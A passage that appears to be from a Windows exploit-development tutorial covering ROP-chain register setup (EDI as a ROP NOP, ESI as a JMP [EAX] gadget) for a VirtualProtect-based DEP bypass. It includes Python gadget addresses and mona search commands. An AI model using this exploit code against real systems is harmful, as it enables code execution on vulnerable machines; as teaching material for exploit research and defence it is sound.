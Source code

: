 
### 6.5 Setting up EDI (ROP NOP)

```python
# EDI - Return address (ROP NOP)
edi = struct.pack("<I", 0x76fe83f7)  # POP EDI # RETN [WS2_32.DLL]
edi += struct.pack("<I", 0x7650580a)  # RETN (ROP NOP) [KERNEL32.DLL]
```

**Current Value**: 0x7650580a (RET instruction)
**Reason**: EDI isn't used directly in the VirtualProtect call, but it needs a valid address. A simple RET instruction works as a placeholder.

**How we found it**:
```
!py mona find -type instr -s "pop edi" -m "ws2_32" -cpb "\x00"
!py mona find -type instr -s "ret" -m kernel32 -cpb "\x00"
```

**Alternative Options**:
1. **Any harmless gadget**:
```python
edi = struct.pack("<I", 0x76fe83f7)  # pop edi; ret
edi += struct.pack("<I", 0x90909090)  # NOP values
```

2. **Secondary return address**:
```python
edi = struct.pack("<I", 0x76fe83f7)  # pop edi; ret
edi += struct.pack("<I", 0x625011c7)  # Alternative JMP ESP
```

### 6.6 Setting up ESI (JMP [EAX])

```python
# ESI - Pointer to JMP [EAX] gadget
esi = struct.pack("<I", 0x76525760)  # POP ESI # RETN [KERNEL32.DLL]
esi += struct.pack("<I", 0x75e95833)  # JMP [EAX] [KERNELBASE.dll]
```

**Current Value**: 0x75e95833 (JMP [EAX] instruction)
**Reason**: This technique is crucial for our exploit. After PUSHAD, execution continues at the address in ESI. This gadget will jump to the address pointed to by EAX (which we'll set to VirtualProtect).

**How we found it**:
```
!py mona find -type instr -s "pop esi" -m "kernel32" -cpb "\x00"
!py mona find -type instr -s "jmp dword ptr [eax]" -m "kernelbase" -cpb "\x00"
```

**Alternative Options**:
1. **CALL [EAX] instead of JMP**:
```python
esi = struct.pack("<I", 0x76525760)  # pop esi; ret
esi += struct.pack("<I", 0x75e9583b)  # call dword ptr [eax]; ret
```
